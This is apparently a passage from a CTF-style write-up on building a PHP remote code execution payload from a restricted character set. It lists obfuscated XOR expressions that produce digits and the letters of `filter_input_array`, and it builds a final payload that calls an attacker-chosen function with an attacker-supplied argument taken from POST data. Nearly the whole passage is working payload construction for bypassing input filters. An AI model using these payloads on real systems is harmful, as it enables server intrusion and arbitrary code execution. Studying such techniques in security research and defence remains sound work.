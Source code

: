```
'0': 0110000 (![]^![]).[][!![]]
'1': 0110001 ![].[][!![]]
'2': 0110010 ([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^![].[][!![]]^(![]^![]).[][!![]]
'3': 0110011 ([].[])[!![]]^(![]^![]).[][!![]]^([].[])[![]]^(![]^![]).[][!![]]
'4': 0110100 (((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]
'5': 0110101 ([].[])[![]]^(![]^![]).[][!![]] ^ ([].[])[!![]]^(![]^![]).[][!![]] ^ ([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^![].[][!![]]^(![]^![]).[][!![]] ^ (((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]
'6': 0110110 ([].[])[![]]^(![]^![]).[][!![]] ^ ([].[])[!![]]^(![]^![]).[][!![]] ^ ![].[][!![]] ^ (((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]
'7': 0110111 ([].[])[![]]^(![]^![]).[][!![]] ^ ([].[])[!![]]^(![]^![]).[][!![]] ^ (![]^![]).[][!![]] ^ (((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]
'8': 0111000 ([].![])[!![]] ^ (![].![].[].[])[!(![]^![]).(![]^!![])]
'9': 0111001 ([].![])[!![]] ^ (![].![].[].[])[!(![]^![]).(![]^!![])] ^ (![]^![]).[][!![]] ^ ![].[][!![]]
```

## Building the final payload

As stated earlier, the final payload should do something like:
```php
filter_input_array(0)["A"](filter_input_array(0)["r"]);
//same as
filter_input_array(!![])["A"](filter_input_array(!![])["r"]);
//same as
filter_input_array(0)[([].![])[!![]]](filter_input_array(0)[([].![])[![]]]);
```

Since the strings `'A'` and `'r'` are part of the restricted charset, it is easier to use them as POST arguments. Last step is then to rebuild `filter_input_array`. The missing characters are:

```
f: '4'^'r':         (((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^([].![])[![]]
i: '0'^'y':         (![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]
l: '5'^'y':         ([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^![].[][!![]]^(![]^![]).[][!![]]^(((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^(![].![].[].[])[!(![]^![]).(![]^!![])]
t: '5'^'a':         ([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^![].[][!![]]^(![]^![]).[][!![]]^(((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^(![].![].![].[].[])[!(![]^![]).(![]^!![])]
e: '7'^'r':         ([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^(![]^![]).[][!![]]^(((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^([].![])[![]]
_: 'r'^'5'^'y'^'a': ([].![])[![]]^([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^![].[][!![]]^(![]^![]).[][!![]]^(((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^(![].![].[].[])[!(![]^![]).(![]^!![])]^(![].![].![].[].[])[!(![]^![]).(![]^!![])]
```